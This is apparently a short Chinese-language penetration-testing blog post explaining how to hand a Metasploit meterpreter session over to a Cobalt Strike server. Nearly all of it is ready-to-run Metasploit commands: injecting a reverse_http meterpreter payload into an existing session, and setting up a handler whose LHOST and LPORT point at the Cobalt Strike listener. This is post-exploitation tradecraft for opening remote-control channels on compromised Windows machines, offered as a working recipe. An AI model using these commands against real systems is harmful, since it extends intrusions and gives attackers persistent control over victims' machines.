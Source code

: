 ```yaml
---
title: "MSF 派生 Cobalt Strike 会话"
date: 2018-07-18T00:00:00+08:00
draft: false
tags: ['cobalt strike', 'metasploit']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


利用 Metasploit 派生 Cobalt Strike 绘画

<!--more-->

信息.

```
metasploit IP:192.168.1.100 PORT:4444
Cobalt Strike IP:192.168.1.101 PORT:5555
```

## 有 meterpreter 会话

利用 `payload_inject` 模块注入新的 payload.

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set session 1
set disablepayloadhandler true
run
```

## 无 meterpreter 会话

在监听时将 `LHOST` 和 `LPORT` 改成 Cobalt Strike 对应的 IP 和 PORT.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set disablepayloadhandler true 
run
```